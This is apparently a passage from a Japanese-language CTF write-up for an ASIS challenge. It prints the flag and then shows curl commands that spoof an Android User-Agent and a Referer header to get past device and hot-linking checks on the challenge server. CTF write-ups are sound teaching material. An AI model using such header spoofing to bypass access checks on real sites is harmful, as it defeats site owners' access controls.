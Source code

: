 ```
ASIS{I_l0V3_Us3rD1r_Mpdul3!!}
```

---

これは想定していた解法ではなかったのか、途中から `path` に `index.php` が入っていると `Security failed!` と出力されるようになっていました。他の解法を考えてみましょう。

まず `Invalid Device` という出力から携帯端末のブラウザで閲覧すればいいのかと考えます。Chrome for Android の UA を使ってアクセスしてみましょう。

```
$ curl http://178.62.48.181/~th1sizveryl0ngus3rn4me/ -A "Mozilla/5.0 (Linux; Android 4.0.4; Galaxy Nexus Build/IMM76B) AppleWebKit/535.19 (KHTML, like Gecko) Chrome/18.0.1025.133 Mobile Safari/535.19"
Hot-linking is disabled
```

直リン禁止のようです。リファラを使って外部からのアクセスではないように見せかけましょう。

```
$ curl http://178.62.48.181/~th1sizveryl0ngus3rn4me/ -A "Mozilla/5.0 (Linux; Android 4.0.4; Galaxy Nexus Build/IMM76B) AppleWebKit/535.19 (KHTML, like Gecko) Chrome/18.0.1025.133 Mobile Safari/535.19" -e "http://178.62.48.181/~th1sizveryl0ngus3rn4me/"
ASIS{I_l0V3_Us3rD1r_Mpdul3!!}
```

フラグが得られました。